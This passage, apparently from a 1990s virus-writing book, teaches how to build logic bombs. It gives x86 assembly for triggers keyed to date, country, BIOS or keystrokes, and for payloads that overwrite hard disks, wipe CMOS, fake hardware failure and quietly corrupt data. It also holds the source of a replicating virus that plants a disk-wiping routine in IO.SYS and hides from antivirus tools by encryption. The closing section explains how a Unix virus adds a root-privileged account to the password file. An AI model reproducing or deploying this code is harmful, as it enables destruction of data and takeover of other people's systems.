You needn't know how to set up the other registers to do something right. Executing this will often overwrite a sector on the hard disk with garbage.
Despite the apparent ease of writing destructive code, there is an art to it which one should not be unaware of. While the above routine is almost guaranteed to cause some damage when properly deployed, it would be highly unlikely to stop a nuclear attack even if it did find its way into the right computer. It might cause some damage, but probably not the right damage at the right time.
To write effective destructive code, one must pay close attention to (1) the trigger mechanism and (2) the bomb itself. Essentially, the trigger decides when destructive activity will take place and the bomb determines what destructive activity will happen. We will discuss each aspect of destructive code writing in this chapter.
Triggers can cause the bomb to detonate under a wide variety of circumstances. If you can express any set of conditions logically and if a piece of software can sense these conditions, then they can be coded into a trigger mechanism. For example, a trigger routine could activate when the PC's date reads June 13, 1996 if your computer has an Award BIOS and a SCSI hard disk, and you type the word "garbage". On the other hand, it would be rather difficult to make it activate at sunrise on the next cloudy day, because that can't be detected by software. This is not an entirely trivial observation - chemical bombs with specialized hardware are not subject to such limitations.
For the most part, logic bombs incorporated into computer viruses use fairly simple trigger routines. For example, they activate on a certain date, after a certain number of executions, or after a certain time in memory, or at random. There is no reason this simplicity is necessary, though. Trigger routines can be very complex. In fact, the Virus Creation Lab allows the user to build much more complex triggers using a pull-down menu scheme.
Typically, a trigger might simply be a routine which returns with the z flag set or reset. Such a trigger can be used something like this:
LOGIC_BOMB:
call TRIGGER ;detonate bomb?
jnz DONT_DETONATE ;nope
call BOMB ;yes
DONT_DETONATE:
Where this code is put may depend on the trigger itself. For example, if the trigger is set to detonate after a program has been in memory for a certain length of time, it would make sense to make it part of the software timer interrupt (INT 1CH). If it triggers on a certain set of keystrokes, it might go in the hardware keyboard interrupt (INT 9), or if it triggers when a certain BIOS is detected, it could be buried within the execution path of an application program.
Let's take a look at some of the basic tools a trigger routine can use to do its job:
A trigger can occur when a counter reaches a certain value. Typically, the counter is just a memory location that is initialized to zero at some time, and then incremented in another routine:
COUNTER DW 0
(Alternatively, it could be set to some fixed value and decremented to zero.) COUNTER can be used by the trigger routine like this:
TRIGGER:
cmp cs:[COUNTER],TRIG_VAL
ret
When [COUNTER]=TRIG_VAL, TRIGGER returnswith z set and the BOMB gets called.
The counter might be incremented in avariety of ways, depending on the conditions for the trigger. For example, if the trigger should go off after 10,000 keystrokes, one might install an Interrupt 9 handler like this:
INT_9:
push ax
in al,60H
test al,80H
pop ax
jnz I9EX
inc cs:[COUNTER]
call TRIGGER
jnz I9EX
call BOMB
I9EX: jmp DWORD PTR cs:[OLD_INT9]
This increments COUNTER with every keystroke, ignoring the scan codes which the keyboard puts out when a key goes up, and the extended multiple scan codes produced by some keys. After the logic bomb is done, it passes control to the original int 9 handler to process the keystroke.
On the other hand, triggering after a certain period of time can be accomplished with something as simple as this:
INT_1C:
inc cs:[COUNTER]
call TRIGGER
jnz I1CEX
call BOMB
I1CEX: jmp DWORD PTR cs:[OLD_INT1C]
Since INT_1C gets called 18.9 times per second, [COUNTER] will reach the desired value after the appropriate time lapse. One could likewise code a counter-based trigger to go off after a fixed number of disk reads (Hook int 13H, Function 2), after executing so many programs (Hook Interrupt 21H, Function 4BH), or changing video modes so many times (Hook int 10H, Function 0), or after loading Windows seven times (Hook int 2FH, Function 1605H), etc., etc.
One of the more popular triggers is to launch a bomb after a certain number of replications of a virus. There are a number of ways to do this. For example, the routine
push [COUNTER]
mov [COUNTER],0 ;reset counter
call REPLICATE ;and replicate
pop [COUNTER] ;restore original counter
inc [COUNTER] ;increment it
call TRIGGER
will make TRIG_VAL copies of itself and then trigger. Each copy will have a fresh counter set to zero. The Lehigh virus, which was one of the first viruses to receive a lot of publicity in the late 80's, used this kind of a mechanism.
One could, of course, code this replication trigger a little differently to get different results. For example,
call TRIGGER
jnz GOON ;increment counter if no trigger
call BOMB ;else explode
mov [COUNTER],0 ;start over after damage
GOON: inc [COUNTER] ;increment counter
call REPLICATE ;make new copy w/ new counter
dec [COUNTER] ;restore original value
will count the generations of a virus. The first TRIG_VAL-1 generations will never cause damage, but the TRIG_VAL'th generation will activate the BOMB. Likewise, one could create a finite number of bomb detonations with the routine
inc [COUNTER] ;increment counter
call TRIGGER
jnz GO_REP ;repliate if not triggered
call BOMB ;else explode
jmp $ ;and halt--do not replicate!
GO_REP: call REPLICATE
The first generation will make TRIG_VAL copies of itself and then trigger. One of the TRIG_VAL second-generation copies will make TRIG_VAL-1 copies of itself (because it starts out with COUNTER = 1) and then detonate. This arrangement gives a total of 2TRIG_VAL bombs exploding. This is a nice way to handle a virus dedicated to attacking a specific target because it doesn't just keep replicating and causing damage potentially ad infinitum. It just does its job and goes away.
There are a wide variety of system parameters which can be read by software and used in a trigger routine. By far the most common among virus writers is the system date, but this barely scratches the surface of what can be done. Let's look at some easily accessible system paramters to get a feel for the possibilities...
To get the current date, simply call int 21H with ah=2AH. On return, cx is the year, dh is the month, and dl is the day of the month, while al is the day of the week, 0 to 6. Thus, to trigger on any Friday the 13th, a trigger might look like this:
TRIGGER:
mov ah,2AH
int 21H ;get date info
cmp al,5 ;check day of week
jnz TEX
cmp dl,13 ;check day of month
TEX: ret
Pretty easy! No wonder so many viruses use this trigger.
DOS function 2CH reports the current system time. Typically a virus will trigger after a certain time, or during a certain range of time. For example, to trigger between four and five PM, the trigger could look like this:
TRIGGER:
mov ah,2CH
int 21H
cmp ch,4+12 ;check hour
ret ;return z if 4:XX pm
DOS function 36H reports the amount of free space on a disk. A trigger could only activate when a disk is 127/128 or more full, for example:
TRIGGER:
mov ah,36H
mov dl,3
int 21H
mov ax,dx ;dx=total clusters on disk
sub ax,bx ;ax=total free clusters
mov cl,7
shr dx,cl ;dx=dx/128
cmp ax,dx ;if free<al/128 then trigger
jg NOTR
xor al,al
NOTR: ret
One could write a virus to trigger only when it finds a certain country code in effect on a computer by using DOS function 38H. The country codes used by DOS are the same as those used by the phone company for country access codes. Thus, one could cause a virus to trigger only in Germany and nowhere else:
TRIGGER:
mov ah,38H
mov al,0 ;get country info
mov dx,OFFSET BUF ;buffer for country info
int 21H
cmp bx,49 ;is it Germany?
ret
This trigger and a date trigger (December 7) are used by the Pearl Harbor virus distributed with the Virus Creation Lab. It only gets nasty in Japan.
By using the BIOS video services, a virus could trigger only when the video is in a certain desired mode, or a certain range of modes:
TRIGGER:
mov ah,0FH
int 10H ;get video mode
and al,11111100B ;mode 0 to 3?
ret
This might be useful if the bomb includes a mode-dependent graphic, such as the Ambulance virus, which sends an ambulance across your screen from time to time, and which requires a normal text mode.
Many other triggers which utilize interrupt calls to fetch system information are possible. For example, one could trigger depending on the number and type of disk drives, on the memory size or free memory, on the DOS version number, on the number ofserialports, on whether a network was installed, or whether DPMI or Windows was active, and on and on. Yet one need not rely only on interrupt service routines to gather information and make decisions.
A logic bomb could trigger when it finds a particular BIOS (or when it does not find a particular BIOS). To identify a BIOS, a 16-byte signature from the ROM, located starting at F000:0000 in memory is usually sufficient. The BIOS date stamp at F000:FFF5 might also prove useful. The routine
TRIGGER:
push es
mov ax,0F000H ;BIOS date at es:di
mov es,ax
mov di,0FFF5H
mov si,OFFSET TRIG_DATE ;date to compare with
mov cx,8
repz cmpsb
pop es
jz TNZ ;same, don't trigger
xor al,al ;else set Z
ret
TNZ: mov al,1
or al,al
ret
TRIG_DATE DB '12/12/91'
triggers if the BIOS date is anything but 12/12/91. Such a trigger might be useful in a virus that is benign on your own computer, but malicious on anyone else's.
The byte at 0000:0417H contains the keyboard status. If bits 4 through 7 are set, then Scroll Lock, Num Lock, Caps Lock and Insert are active, respectively. A trigger might only activate when Num Lock is on, etc., by checking this bit.
Obviously there are plenty of other memory variables which might be used to trigger a logic bomb. A virus might even search memory for an already-installed copy of itself, or a popular anti-virus program and trigger if it's installed. For example, the following routine scans memory for the binary strings at SCAN_STRINGS, and activates when any one of them is found:
SCAN_RAM:
push es
mov si,OFFSET SCAN_STRINGS
SRLP: lodsb ;get scan string length
or al,al ;is it 0?
jz SREXNZ ;yes-no match, end of scan strings
xor ah,ah
push ax ;save string length
lodsw
mov dx,ax ;put string offset in dx (loads di)
pop ax
mov bx,40H ;start scan at seg 40H (bx loads es)
push si
SRLP2: pop si ;inner loop, look for string in seg
push si ;set up si
mov di,dx ;and di
mov cx,ax ;scan string size
inc bx ;increment segment to scan
mov es,bx ;set segment
push ax ;save string size temporarily
SRLP3: lodsb ;get a byte from string below
xor al,0AAH ;xor to get true value to compare
inc di
cmp al,es:[di-1] ;compare against byte in ram
loopz SRLP3 ;loop 'till done or no compare
pop ax
jz SREX1 ;have a match-string found! return Z
cmp bx,0F000H ;done with this string's scan?
jnz SRLP2 ;nope, go do another segment
pop si ;scan done, clean stack
add si,ax
jmp SRLP ;and go for next string
SREX1: xor al,al ;match found - set z and exit
pop si
pop es
ret
SREXNZ: pop es
inc al ;return with nz - no matches
ret
;The scan string data structure looks like this:
; DB LENGTH = A single byte string length
; DW OFFSET = Offset where string is located in seg
; DB X,X,X... = Scan string of length LENGTH,
; xored with 0AAH
;
;These are used back to back, and when a string of length 0 is
;encountered, SCAN_RAM stops. The scan string is XORed with AA so
;this will never detect itself.
SCAN_STRINGS:
DB 14 ;length
DW 1082H ;offset
DB 0E9H,0F9H,0EBH,0FCH,84H,0EFH ;scan string
DB 0F2H,0EFH,0AAH,0AAH,85H,0FCH,0F9H,0AAH
;for MS-DOS 6.20 VSAFE
;Note this is just a name used by VSAFE, not the best string
DB 0 ;next record, 0 = no more strings
An alternative might be to scan video memory for the display of a certain word or phrase.
Finally, one might write a trigger which directly tests hardware to determine when to activate.
Because 8088 processors handle the instruction push sp differently from 80286 and higher processors, one can use it to determine which processor a program is run on. The routine
TRIGGER:
push sp
pop bx
mov ax,sp
cmp ax,bx
ret
triggers (returns with z set) only if the processor is an 80286 or above.
Finally, we come to the null trigger, which is really no trigger at all. Simply put, the mere placement of a logic bomb can serve as trigger enough. For example, one might completely replace DOS's critical error handler, int 24H, with a logic bomb. The next time that handler gets called (for example, when you try to write to a write-protected diskette) the logic bomb will be called. In such cases there is really no trigger at all - just the code equivalent of a land mine waiting for the processor to come along and step on it.
Next, we must discuss the logic bombs themselves. What can malevolent programs do when they trigger? The possibilities are at least as endless as the ways in which they can trigger. Here we will discuss some possibilities to give you an idea of what can be done.
The simplest logic bombs carry out some obvious annoying or destructive activity on a computer. This can range from making noise or goofing with the display to formatting the hard disk. Here are some simple examples:
This is the easiest thing a logic bomb can possibly do:
BOMB jmp $
will work quite fine. You might stop hardware interrupts too, to force the user to press the reset button:
BOMB: cli
jmp $
A logic bomb can simply turn the PC speaker on so it will make noise continually without halting the normal execution of a program.
BOMB:
mov al,182
out 43H,al ;set up the speaker
mov ax,(1193280/3000) ;for a 3 KHz sound
out 42H,al
mov al,ah
out 42H,al
in al,61H ;turn speaker on
or al,3
out 61H,cl
ret
There are a whole variety of different things a logic bomb can do to the display, ranging from clearing the screen to fooling with the video attributes and filling the screen with strange colors to drawing pictures or changing video modes. One cute trick I've seen is to make the cursor move up and down in the character block where it's located. This can be accomplished by putting the following routine inside an int 1CH handler:
INT_1C:
push ds ;save ds
push cs
pop ds
mov ch,[CURS] ;get cursor start position
mov cl,ch
inc cl ;set cursor end position at start+1
mov al,1 ;then set cursor style
int 10H ;with BIOS video
mov al,[CURS] ;then update the cursor start
cmp al,6 ;if CURS=0 or 6, then change DIR
je CHDIR
or al,al
jne NEXT
CHDIR: mov al,[DIR]
xor al,0FFH ;add or subtract, depending on CURS
mov [DIR],al
mov al,[CURS] ;put CURS back in al
NEXT: add al,[DIR]
pop ds
jmp DWORD PTR [OLD_1C];and go to next int 1C handler
CURS DB 6 ;scan line for start of cursor
DIR DB 0FFH ;direction of cursor movement
OLD_1C DD ?
The effect is rather cute at first - but it gets annoying fast.
Disk attacks are generally more serious than a mere annoyance. Typically, they cause permanent data loss. The most popular attack among virus writers is simply to attempt to destroy all data on the hard disk by formatting or overwriting it. This type of attack is really very easy to implement. The following code overwrites the hard disk starting with Cylinder 0, Head 0 and proceeds until it runs out of cylinders:
BOMB:
mov ah,8
mov dl,80H
int 13H ;get hard disk drive params
mov al,cl
and al,1FH ;al=# of secs per cylinder
mov cx,1 ;start at sector 1, head 0
mov di,dx ;save max head # here
xor dh,dh
DISKLP: mov ah,3 ;write one cyl/head
int 13H ;with trash at es:bx
inc dh
cmp dx,di ;do all heads
jne DISKLP
xor dh,dh
inc ch ;next cyl
jnz DISKLP
add cl,20H
jmp DISKLP
This routine doesn't really care about the total number of cylinders. If it works long enough to exceed that number it won't make much difference - everything will be ruined by then anyhow.
Another possible approach is to bypass disk writes. This would prevent the user from writing any data at all to disk once the bomb activated.Dependingonthe circumstances,ofcourse,hemaynever realize that his write failed. This bomb might be implemented as part of an int 13H handler:
INT_13:
call TRIGGER
jnz I13E
cmp ah,3 ;trigger triggered-is it a write
jnz I13E ;no-handle normally
clc ;else fake a successful read
retf 2
I13E: jmp DWORD PTR cs:[OLD_13]
One other trick is to convert BIOS int 13H read and write (Function 2 and 3) calls to long read and write (Function 10 and 11) calls. This trashes the 4 byte long error correction code at the end of the sector making the usual read (Function 2) fail. That makes the virus real hard to get rid of, because as soon as you do, Function 2 no longer gets translated to Function 10, and it no longer works, either. The Volga virus uses this technique.
Generally speaking it is difficult to cause immediate hardware damage with software - including logic bombs. Computers are normally designed so that can't happen. Occasionally, there is a bug in the hardware design which makes it possible to cause hardware failure if you know what the bug is. For example, in the early 1980's when IBM came out with the original PC, there was a bug in the monochrome monitor/controller which would allow software to ruin the monitor by sending the wrong bytes to the control registers. Of course, this was fixed as soon as the problem was recognized. Theoretically, at least, it is still possible to damage a monitor by adjusting the control registers. It will take some hard work, hardware specific research, and a patient logic bomb to accomplish this.
It would seem possible to cause damage to disk drives by exercising them more than necessary - for example, by doing lots of random seeks while they are idle. Likewise, one might cause damage by seeking beyond the maximum cylinder number. Some drives just go ahead and crash the head into a stop when you attempt this, which could result in head misalignment. Likewise, one might be able to detect the fact that the PC is physically hot (you might try detecting the maximum refresh rate on the DRAMs) and then try to push it over the edge with unnecessary activity. Finally, on portables it is an easy matter to run the battery down prematurely. For example, just do a random disk read every few seconds to make sure the hard disk keeps running and keeps drawing power.
I've heard that Intel has designed the new Pentium processors so one can download the microcode to them. This is in response to the floating point bug which cost them so dearly. If a virus could access this feature, it could presumably render the entire microprocessor inoperative.
Simulating hardware damage can be every bit as effective as actually damaging it. To the unwary user, simulated damage will never be seen for what it is, and the computer will go into the shop. It will come back with a big repair bill (and maybe still malfunctioning). Furthermore, just about any hardware problem can be simulated. 2
When a disk drive fails, it usually becomes more and more difficult to read some sectors. At first, only a few sectors may falter, but gradually more and more fail. The user notices at first that the drive hesitates reading or writing in some apparently random but fixed areas. As the problem becomes more serious, the computer starts alerting him of critical errors and telling him it simply could not read such-and-such a sector.
By hacking Interrupt 13H and maintaining a table of "bad" sectors, one could easily mimic disk failure. When a bad sector is requested, one could do the real int 13H, and then either call a delay routine or ignore the interrupt service routine and return with c set to tell DOS that the read failed. These effects could even contain a statistical element by incorporating a pseudo-random number generator into the failure simulation.
A boot sector logic bomb could also slow or stop the loading of the operating system itself and simulate disk errors during the boot process. A simple but annoying technique is for a logic bomb to de-activate the active hard disk partition when it is run. This will cause the master boot sector to display an error message at boot time, which must be fixed with FDISK. After a few times, most users will be convinced that there is something wrong with their harddisk. Remember: someone who's technicallycompetent might see the true cause isn't hardware. That doesn't mean the average user won't be misled, though. Some simulated problems can be real tricky. I remember a wonderful problem someone had with Ventura Publisher which convinced them that their serial port was bad. Though the mouse wouldn't work on their machine at all, it was because in the batch file which started Ventura up, the mouse specification had been changed from M=03 to M=3. Once the batch file was run, Ventura did something to louse up the mouse for every other program too.
Failure of the battery which runs the CMOS memory in AT class machines is an annoying but common problem. When it fails the date and time are typically reset and all of the system information stored in the CMOS including the hard disk configuration information is lost. A logic bomb can trash the information in CMOS which could convince the user that his battery is failing. The CMOS is accessed through i/o ports 70H and 71H, and a routine to erase it is given by:
mov cx,40H ;prep to zero 40H bytes
xor ah,ah
CMOSLP: mov al,ah ;CMOS byte address to al
out 70H,al ;request to write byte al
xor al,al ;write a zero to requested byte
out 71H,al ;through port 71H
inc ah ;next byte
loop CMOSLP ;repeat until done
By writing illegal values to the control ports of a video card, one can cause a monitor to display all kinds of strange behaviour which would easily convince a user that something is wrong with the video card or the monitor. These can range from blanking the screen to distortion to running lines across the screen.
Now obviously one cannot simulate total failure of a monitor because one can always reboot the machine and see the monitor behave without trouble when under the control of BIOS.
What one can simulate are intermittent problems: the monitor blinks into the problem for a second or two from time to time, and then goes back to normal operation. Likewise, one could simulate mode-dependent problems. For example, any attempt to go into a 1024 x 768 video mode could be made to produce a simulated problem.
The more interesting effects can be dependent on the chip set used by a video card. The only way to see what they do is to experiment. More common effects, such as blanking can be caused in a more hardware independent way. For example, simply changing the video mode several times and then returning to the original mode (set bit 7 so you don't erase video memory) can blank the screen for a second or two, and often cause the monitor to click or hiss.
One can also simulate keyboard failure in memory. There are a number of viruses (e.g. Fumble) which simulate typing errors by substitutingthe keypressed withthe onenexttoit.Keyboardfailure doesn't quite work the same way. Most often, keyboards fail when a key switch gives out. At first, pressing the key will occasionally fail to register a keystroke. As time goes on the problem will get worse until that key doesn't work at all.
Catching a keystroke like this is easy to simulate in software by hacking Interrupt 9. For example, to stop the "A" key, the following routine will work great:
INT_9:
push ax
in al,60H
or al,80H ;handle up and down stroke
cmp al,30 ;is it A?
pop ax
jnz I9E ;not A, let usual handler handle it
push ax
mov al,20H
out 20H,al ;reset interrupt controller
pop ax
iret ;and exit, losing the keystroke
I9E: jmp DWORD PTR cs:[OLD_9]
To make a routine like this simulate failure, just pick a key at random and make it fail gradually with a random number generator and a counter. Just increment the counter for every failure and make the key fail by getting a random number when the key is pressed. Drop the keystroke whenever the random number is less than the counter.
So far, the types of attacks we have discussed become apparent to the user fairly quickly. Once the attack has taken place his response is likely to be an immediate realization that he has been attacked, or that he has a problem. That does not always have to be the result of an attack. A logic bomb can destroy data in such a way that it is not immediately obvious to the user that anything is wrong. Typical of the stealth attack is slow disk corruption, which is used in many computer viruses.
Typically, a virus that slowly corrupts a disk may sit in memory and mis-direct a write to the disk from time to time, so either data gets written to the wrong place or the wrong data gets written. For example, the routine
INT_13:
cmp ah,3 ;a write?
jnz I13E ;no, give it to BIOS
call RAND_CORRUPT ;corrupt this write?
jz I13E ;no, give it to BIOS
push bx
add bx,1500H ;trash bx
pushf
call DWORD PTR cs:[OLD_13] ;call the BIOS
pop bx ;restore bx
retf 2 ;and return to caller
I13E: jmp DWORD PTR cs:[OLD_13]
will trash a disk write whenever the RAND_CORRUPT routine returns with z set. You could write it to do that every time, or only one in a million times.
Alternatively, a non-resident virus might just randomly choose a sector and write garbage to it:
BOMB:
mov ah,301H ;prep to write one sector
mov dl,80H ;to the hard disk
call GET_RAND ;get a random number in bx
mov cx,bx ;use it for the sec/cylinder
and cl,1FH
call GET_RAND ;get another random number in bx
mov dh,bl ;and use it for the head
and dh,0FH
int 13H ;write one sector
ret
Typically, stealth attacks like this have the advantage that the user may not realize he is under attack for a long time. As such, not only will his hard disk be corrupted, but so will his backups. The disadvantage is that the user may notice the attack long before it destroys lots of valuable data.
Moving beyond the overt, direct-action attacks, a logic bomb can act indirectly. For example, a logic bomb could plant another logic bomb, or it could plant a logic bomb that plants a third logic bomb, or it could release a virus, etc.
By using indirect methods like this it becomes almost impossible to determine the original source of the attack. Indeed, an indirect attack may even convince someone that another piece of software is to blame. For example, one logic bomb might find an entry point in a Windows executable and replace the code there with a direct-acting bomb. This bomb will then explode when the function it replaced is called within the program that was modified. That function could easily be something the user only touches once a year.
In writing and designing logic bombs, one should not be unaware of user psychology. For example, if a logic bomb requires some time to complete its operation (e.g. overwriting a significant portion of a hard disk) then it is much more likely to succeed if it entertains the user a bit while doing its real job. Likewise, one should be aware that a user is much less likely to own up to the real cause of damage if it occured when they were using unauthorized or illicit software. In such situations, the source of the logic bomb will be concealed by the very person attacked by it. Also, if a user thinks he caused the problem himself, he is much less likely to blame a bomb. (For example, if you can turn a "format a:" into a "formatc:"andproceedtodoitwithout furtherinput,theusermight think he typed the wrong thing, and will be promptly fired if he confesses.)
Now let's take some of these ideas and put together a useful bomb and trigger. This will be a double-acting bomb which can be incorporated into an application program written in Pascal. At the first level, it checks the system BIOS to see if it has the proper date. If it does not, Trigger 1 goes off, the effect of which is to release a virus which is stored in a specially encrypted form in the application program. The virus itself contains a trigger which includes a finite counter bomb with 6 generations. When the second trigger goes off (in the virus), the virus' logic bomb writes code to the IO.SYS file, which in turn wipes out the hard disk. So if the government seizes your computer and tries the application program on another machine, they'll be sorry. Don't the Inslaw people wish they had done this! It would certainly have saved their lives.
The first level of the logic bomb is a Turbo Pascal Unit. You can include it in any Turbo Pascal program, simply by putting "bomb" in the USES statement. Before you do, make sure you've added the virus in the VIRUS array, and make sure you have set the BIOS system date to the proper value in the computer where the bomb will not trigger. That is all you have to do. This unit is designed so that the trigger will automatically be tested at startup when the program is executed. As coded here, the unit releases a variant of the Intruder-B virus which we'll call Intruder-C. It is stored, in encrypted binary form, in the VIRUS constant.
e virus used with the BOMB unit in this example is the Intruder-C, whic is adapted from Intruder-B. To turn Intruder-B into Intruder-C for use with the BOMB unit, all the code for the Host segment and Host stack should be removed, and the main control routine should be modified as follows:
;The following 10 bytes must stay together because they are an image of 10
;bytes from the EXE header
HOSTS DW 0,0 ;host stack and code segments
FILLER DW ? ;these are hard-coded 1st generation
HOSTC DW 0,0 ;Use HOSTSEG for HOSTS, not HSTACK to
fool A86
;Main routine starts here. This is where cs:ip will be initialized to.
VIRUS:
push ax ;save startup info in ax
mov al,cs:[FIRST] ;save this
mov cs:[FIRST],1 ;and set it to 1 for replication
push ax
push es
push ds
push cs
pop ds ;set ds=cs
mov ah,2FH ;get current DTA address
int 21H
push es
push bx ;save it on the stack
mov ah,1AH ;set up a new DTA location
mov dx,OFFSET DTA ;for viral use
int 21H
call TRIGGER ;see if logic bomb should trigger
jnz GO_REP ;no, just go replicate
call BOMB ;yes, call the logic bomb
jmp FINISH ;and exit without further replication
GO_REP: call FINDEXE ;get an exe file to attack
jc FINISH ;returned c - no valid file, exit
call INFECT ;move virus code to file we found
FINISH: pop dx ;get old DTA in ds:dx
pop ds
mov ah,1AH ;restore DTA
int 21H
pop ds ;restore ds
pop es ;and es
pop ax
mov cs:[FIRST],al ;restore FIRST flag now
pop ax ;restore startup value of ax
cmp BYTE PTR cs:[FIRST],0 ;is this the first execution?
je FEXIT ;yes, exit differently
cli
mov ss,WORD PTR cs:[HOSTS] ;set up host stack properly
mov sp,WORD PTR cs:[HOSTS+2]
sti
jmp DWORD PTR cs:[HOSTC] ;begin execution of host program
FEXIT: retf ;just retf for first exit
FIRST DB 0 ;flag for first execution
INCLUDE BOMBINC.ASM
Note that one could use many of the viruses we've discussed in this book with the BOMB unit. The only requirements are to set up a segment for it to execute properly at the right offset when called, and to set it up to return to the caller with a retf the first time it executes, rather than trying to pass control to a host that doesn't exist.
The BOMBINC.ASM routine is given by the following code. It contains the virus' counter-trigger which allows the virus to reproduce for six generations before the bomb is detonated. It also contains the bomb for the virus, which overwrites the IO.SYS file with another bomb, also included in the BOMBINC.ASM file.
;The following Trigger Routine counts down from 6 and detonates
TRIGGER:
cmp BYTE PTR [COUNTER],0
jz TRET
dec [COUNTER]
mov al,[COUNTER]
mov al,1
or al,al
TRET: ret
COUNTER DB 6
;The following Logic Bomb writes the routine KILL_DISK into the IO.SYS file.
;To do this successfully, it must first make the file a normal read/write
;file, then it should write to it, and change it back to a system/read only
;file.
BOMB:
mov dx,OFFSET FILE_ID1 ;set attributes to normal
mov ax,4301H
mov cx,0
int 21H
jnc BOMB1 ;success, don't try IBMBIO.COM
mov dx,OFFSET FILE_ID2
mov ax,4301H
mov cx,0
int 21H
jc BOMBE ;exit on error
BOMB1: push dx
mov ax,3D02H ;open file read/write
int 21H
jc BOMB2
mov bx,ax
mov ah,40H ;write KILL_DISK routine
mov dx,OFFSET KILL_DISK
mov cx,OFFSET KILL_END
sub cx,dx
int 21H
mov ah,3EH ;and close file
int 21H
BOMB2: pop dx
mov ax,4301H ;set attributes to ro/hid/sys
mov cx,7
int 21H
BOMBE: ret
FILE_ID1 DB 'C:\IO.SYS',0
FILE_ID2 DB 'C:\IBMBIO.COM',0
;This routine trashes the hard disk.
KILL_DISK:
mov ah,8
mov dl,80H
int 13H ;get hard disk params
mov al,cl
and al,3FH
mov cx,1
inc dh
mov dl,80H
mov di,dx
xor dh,dh
mov ah,3 ;write trash to disk
DISKLP: push ax
int 13H
pop ax
inc dh
cmp dx,di ;do all heads
jne DISKLP
xor dh,dh
inc ch ;next cylinder
jne DISKLP
add cl,20H
jmp DISKLP
KILL_END:
In the BOMB unit, the virus is encrypted by Turbo Pascal's random number generator, so it won't be detected by run of the mill anti-virus programs, even after it has been released by the program. Thus, it must be coded into the VIRUS constant in pre-encoded form. This is accomplished easily by the CODEVIR.PAS program, as follows:
Note that CODEVIR requires the size of the EXE header to work properly. That can easily be obtained by inspection. Inour example, it is 512.
In general, the techniques employed in the creation of a logic bomb will depend on the purpose of that bomb. For example, in a military situation, the trigger may be very specific to trigger at a time when a patrol is acting like they are under attack. The bomb may likewise be very specific, to deceive them, or it may just trash the disk to disable the computer for at least 15 minutes. On the other hand, a virus designed to cause economic damage on a broader scale might trigger fairly routinely, and it may cause slow and insidious damage, or it may attempt to induce the computer user to spend money.
Supposeyou had access to a guest account on a computer which is running BSD Free Unix. Being a nosey hacker, you'd like to have free reign on the system. How could a virus help you get it?
In this chapter I'd like to explain how that can be done. To do it, we'll use a virus called Snoopy, which is similar in function to X23, except that it contains a little extra code to create a new account on the system with super user privileges.
Snoopy, like X23, is a companion virus which will infect every executable file in the current directory (which it has permission to) when it is executed. Snoopy also attempts to modify the password file, though.
In BSD Unix, there are two password files, /etc/passwd and /etc/master.password. The formerisfor use by system utilities, etc., ad available to many users in read-only mode. It doesn't contain the encrypted passwords for security reasons. Those passwords are saved only in master.passwd. This file is normally not available to the average user, even in read-only mode. This is the file which must be changed when new accounts are created, when password are changed, and when users' security clearance is upgraded or downgraded. But how can you get at it? You can't even look at it!? No program you execute can touch it, just because of who you logged in as. You don't have anyone else's password, much less the super user's. Apparently, you're stuck. That's the whole idea behind Unix security - to keep you stuck where you're at, unless the system administrator wants to upgrade you.
While you may not be able to modify master.passwd with any program you write, the super user could modify it, either with an editor or another program. This "other program" could be something supplied with the operating system, something he wrote, or something you wrote.
Now, of course, if you give the system administrator a program called upgrade_me and refuse to tell him what it does, he probably won't run it for you. He might even kick you off the system for such boldness.
You could, of course, try to fool him into running a program that doesn't do exactly what he expects. It might be a trojan. Of course, maybe he won't even ever talk to you, and if you hand him a trojan one day and his system gets compromised, he's going to come straight back to you. Alternatively you could give hima virus. The advantage of a virus is that it attaches itself to other programs, which he will run every day without being asked. It also migrates. Thus, rather than passing a file right to the system administrator, you might just get user 1 to get infected, and he passes it to user 2, who passed it on, and finally the system administrator runs one of user N's programs which is infected. As soon as anyone who has the authority to access master.passwd executes an infected program, the virus promptly modifies it as you like.
Let's imagine a Unix machine with at least three accounts, guest, operator, and root. The guest user requires no password and he can use files as he likes in his own directory, /usr/guest, - read, write and execute. He can't do much outside this directory, though, and he certainly doesn't have access to master.passwd. The operator account has a password, and has access to a directory of its own, /usr/operator, as well as /usr/guest. This account also does not have access to master.passwd, though. The root account is the super user who has access to everything, including master.passwd.
Now, if the guest user were to load Snoopy into his directory, he could infect all his own programs, but nothing else. Since guest is a public account with no password, the super user isn't stupid enough to run any programs in that account. However, operator decides one day to poke around in guest, and he runs an infected program. The result is that he infects every file in his own directory /usr/operator. Since operator is known by root, and somewhat trusted, root runs a program in /usr/operator. This program, however, is infected and Snoopy jumps into action.
Since root has access to master.passwd, Snoopy can successfully modify it, so it does, creating a new account called snoopy, with the password "A Snoopy Dog." and super user privileges. The next time you log in, you log in as snoopy, not as guest, and bingo, you have access to whatever you like.
Master.passwd is a plain text file which contains descriptions of different accounts on the system, etc. The entries for the three accounts we are discussing might look like this:
root:$1$UBFU030x$hFERJh7KYLQ6M5cd0hyxC1:0:0::0:0:Bourne-again Superuser:/root: operator:$1$7vN9mbtvHLzSWcpN1:2:20::0:0:System operator:/usr/operator:/bin/csh guest::5:32::0:0:System Guest:/usr/guest:/bin/csh
To add snoopy, one need only add another line to this file:
snoopy:$1$LOARloMh$fmBvM4NKD2lcLvjhN5GjF.:0:0::0:0:Nobody:/root:
Doing this is as simple as scanning the file for the snoopy record, and if it's not there, writing it out.
To actually take effect, master.passwd must be used to build a password database, spwd.db. This is normally accomplished with the pwd_mkdb program. Snoopy does not execute this program itself (though it could - that's left as an exercise for the reader). Rather, the changes Snoopy makes will take effect the next time the system administrator does some routine password maintenance using, for example, the usual password file editor, vipw. At that point the database will be rebuilt and the changes effected by Snoopy will be activated.
To jump across accounts and directories on a Unix computer, a virus must be careful about what access rights it gives to the various files it infects. If not, it will cause obvious problems when programs which used to be executable by a user cease to be without apparent reason, etc.
In Unix, files can be marked with read, write and executable attributes for the owner, for the group, and for other users, for a total of nine attributes.
Snoopy takes the easy route in handling these permission bits by making all the files it touches maximally available. All read, write and execute bits are set for both the virus and the host. This strategy also has the effect of opening the system up, so that files with restricted access become less restricted when infected.
The following program can be compiled with GNU C using the command "gcc snoopy.c".
